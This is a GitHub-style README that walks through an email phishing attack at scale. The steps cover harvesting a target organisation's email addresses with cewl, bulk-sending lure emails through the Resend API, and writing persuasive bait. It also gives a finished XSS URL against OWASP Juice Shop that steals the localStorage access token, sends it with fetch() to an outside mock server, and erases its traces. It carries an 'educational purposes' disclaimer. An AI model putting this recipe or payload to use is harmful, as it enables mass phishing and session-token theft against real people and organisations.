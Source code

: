 # Email Phishing using OSINT

Email phishing is one of the most common type of attacks. This repo outlines the steps that can be taken to perform such an attack on scale.


## Disclaimer:
This guideline is purely for educational purposes. Author isn't resposible for any misuse, or any harm. Any actions and or activities related to this guideline is solely your responsibility. The misuse of this toolkit can result in criminal charges brought against the persons in question. The contributors will not be held responsible in the event any criminal charges be brought against any individuals misusing this toolkit to break the law.

## Steps:
1) Create a kali linux machine
2) Install https://www.kali.org/tools/cewl/
3) Install node v20.9.0
4) Clone https://github.com/ZeeshanZulfiqarAli/Phishing-Automator
5) Open terminal and navigate to this repo.
6) Use cewl to scrape emails on the victim organization's webpage. Command should look like:
`cewl -d 2 -e https://www.<target>.app --email_file 'emails.txt' `
7) Alternatively, you can use another program to gather email addresses.
The program in (4) expects emails in a txt file with one email address per line:
```
email1@test.com
email2@test.com
```
8) Write a html template for email content. You can use one from demo/template.html to get started. Look at the html template section for more details.
9) Create an account on [Resend](https://resend.com/). And get the API key.
10) Run the following command to send the emails to the victims automatically:
`node index.js -k <resend_key> -f ./emails.txt -sb <email_subject> -s <sender_email> -h ./demo/template.html`

## Performing vulnurability analysis of the victim's website
We're aiming our attack on getting victim's access token on [OWASP Juice Shop](https://juice-shop.herokuapp.com/). This website is intentionally left vulnerable. 

Inspecting the application using chrome dev tools showed us that the access token is stored in the local storage. This is great news for us as this indicates that it can be stolen if we can run javascript on the victim's machine.

We use [Zap](https://www.zaproxy.org/download/) to perform analysis on juice shop. We the following alerts
![](./assets/juice-shop-scan-alerts.png)

The missing CSP Header looks really promising. Upon further investigation we found that the search query is set as a query parameter. The query parameter is directly inserted into the DOM which makes it possible to insert malicious code. We did exactly that and created a URL that:
1) Inserts a iframe
2) Provided javascript in the src tag of the iframe using the syntax `<iframe src="javascript:console.log('i can run js')">`
3) We wrote a script that:
    a) Reads token from local storage.
    b) Makes API call to a mock server we set up using postman ([more info here](https://learning.postman.com/docs/designing-and-developing-your-api/mocking-data/mock-with-api/)). The api call looks like this:
`https://3b233c9b-8705-4517-b3d8-72e8183c0eg1.mock.pstmn.io?token=asd`
    c) After making the API call, removes the query parameter
    d) Removes the iframe
4) Minified the javascript code using an online tool https://www.minifier.org/
5) Inserted the code in inframe as mentioned in step 2

This is how the final url looks like:
```
https://juice-shop.herokuapp.com/#/search?q=%3Ciframe%20src=%22javascript:function%20replaceState()%7Bwindow.parent.history.replaceState(%7B%7D,document.title,window.parent.location.href.split('?')%5B0%5D)%7D%0Afunction%20remoteEl()%7Bwindow.parent.document.querySelector('iframe').remove()%7D%0Afetch('https://3b233c9b-8705-4517-b3d8-72e8183c0ef6.mock.pstmn.io/token='.concat(localStorage.getItem('token'))).then((r)=%3E%7BreplaceState();remoteEl()%7D).catch((e)=%3E%7BreplaceState();remoteEl()%7D)%22%3E
```
## Writing email template
We want our email to sound legit and provide the user a valid reason to click the link. We asked them to schedule a meeting by clicking on a link but embeded that with the malicious URL we designed in the previous part.

## Viewing results
As soon as a user clicks on the malicious email, an API reqeust is sent to our postman mock server. We can monitor that and see if we get any requests, which will provide us with the token.